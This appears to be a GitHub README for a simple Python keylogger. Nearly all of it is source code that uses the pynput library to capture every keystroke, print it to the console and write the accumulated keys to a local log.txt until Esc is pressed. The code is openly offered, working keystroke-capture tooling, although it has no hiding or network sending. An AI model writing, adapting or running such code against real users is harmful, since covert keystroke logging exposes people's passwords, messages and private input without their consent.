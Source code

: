 # Keylogger
Simple keylogger using python 


# keylogger using pynput module

import pynput
from pynput.keyboard import Key, Listener

keys = []


def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))

    except AttributeError:
        print('special key {0} pressed'.format(key))


def write_file(keys):
    with open('log.txt', 'w') as f:
        for key in keys:
            # removing ''
            k = str(key).replace("'", "")
            f.write(k)


            # every keystroke for readability
            f.write(' ')

def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False


with Listener(on_press=on_press,
              on_release=on_release) as listener:
    listener.join()
